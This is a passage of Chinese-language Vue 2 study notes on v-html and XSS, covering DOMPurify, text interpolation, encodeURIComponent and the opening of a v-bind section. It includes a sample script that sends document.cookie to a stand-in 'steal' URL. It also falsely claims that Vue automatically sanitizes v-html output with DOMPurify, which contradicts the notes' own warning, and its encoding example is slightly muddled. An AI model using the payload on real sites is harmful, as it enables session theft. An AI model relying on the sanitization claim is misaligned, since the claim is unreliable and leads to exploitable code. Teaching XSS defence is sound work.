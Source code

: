 ```vue
<script>
	window.location.href =
		"https://www.example.com/steal?cookie=" + document.cookie;
</script>
```

在这种情况下，当用户浏览该页面时，恶意脚本会被执行，将用户的 cookie 数据发送到攻击者指定的 URL。这样，攻击者就可以获取到用户的敏感信息
:::info
_为了防止 _`_XSS_`_ 攻击，应该始终对插入到 _`v-html`_ 中的内容进行合适的过滤和转义处理。可以使用安全的 _`_HTML_`_ 渲染库（如 _`_DOMPurify_`_）来过滤掉恶意的 _`_HTML_`_ 标签和事件，或者使用 _`_Vue_`_ 提供的文本插值方式（如双大括号 _`{{ }}`_）来展示普通文本而非 _`_HTML_`_ 内容_
:::
<br />
<a name="i09Sm"></a>

### 问题解决

:::info
为了避免`v-html`引起的`XSS`攻击问题，`Vue`提供了一种内置的安全机制来对插入到`DOM`中的`HTML`进行过滤，并确保其中不包含任何不安全的代码。具体来说，`Vue.js`会使用`DOMPurify`库来对`v-html`输出的`HTML`内容进行过滤，除去其中的`JS`脚本和其他不安全的`HTML`标签，从而防止`XSS`攻击。
:::
:::info
除了使用 v-html 指令外，还有其他方法可以避免 XSS 攻击。例如，可以使用 Vue.js 提供的 computed 属性来计算需要渲染到页面上的 HTML 代码，从而确保只有受信任的 HTML 代码被渲染。此外，也可以使用 encodeURIComponent()函数对插入到页面中的数据进行编码，以防止特殊字符被解释为 HTML 代码。
:::

```latex
encodeURIComponent()是JavaScript中一个用于对字符串进行编码的函数，它将字符串中的特殊字符进行编码，以便在URL或HTML属性中使用。具体来说，encodeURIComponent()会对所有非字母数字字符进行编码，包括ASCII字符集中除了字母数字字符外的所有字符，以及Unicode字符集中的所有字符。

使用encodeURIComponent()函数可以避免一些安全隐患，比如XSS攻击，因为它会确保在将数据插入到URL或HTML属性中时，不会将特殊字符解释为代码，从而防止恶意代码执行。

以下是一个使用encodeURIComponent()函数的示例：


const myString = 'Hello, world!';
const encodedString = encodeURIComponent(myString);
console.log(encodedString); // "Hello%2C%20world%21"


在上面的例子中，我们首先定义了一个名为myString的字符串变量，该字符串中包含一些特殊字符。然后，我们使用encodeURIComponent()函数对该字符串进行编码，并将编码后的字符串存储在名为encodedString的变量中。最后，我们将编码后的字符串输出到控制台中，可以看到所有特殊字符都被编码成了相应的字符串表示形式，例如“%2C”代表逗号，"%20"代表空格，"!"代表感叹号等。

总之，在编写Web应用程序时，我们应该始终保持警觉，并确保对所有需要插入到URL或HTML属性中的数据进行编码，以防止安全漏洞和攻击。
```

<a name="oxstT"></a>

## [Attribute](https://v2.cn.vuejs.org/v2/guide/syntax.html#Attribute)

:::info
📌**Mustache 语法不能作用在 HTML attribute 上，遇到这种情况应该使用 **[**v-bind**](https://v2.cn.vuejs.org/v2/api/#v-bind)[ 指令](https://v2.cn.vuejs.org/v2/api/#v-bind)
:::
:::info
📌`v-bind` 的实现原理比较简单，它本质上是通过 `JavaScript `的 `setAttribute` 方法来设置元素的属性的值的。当我们使用 `v-bind` 绑定一个属性时，`Vue `实际上会将 `v-bind` 后面的表达式求值之后，将运算结果设置到元素的对应属性上
:::
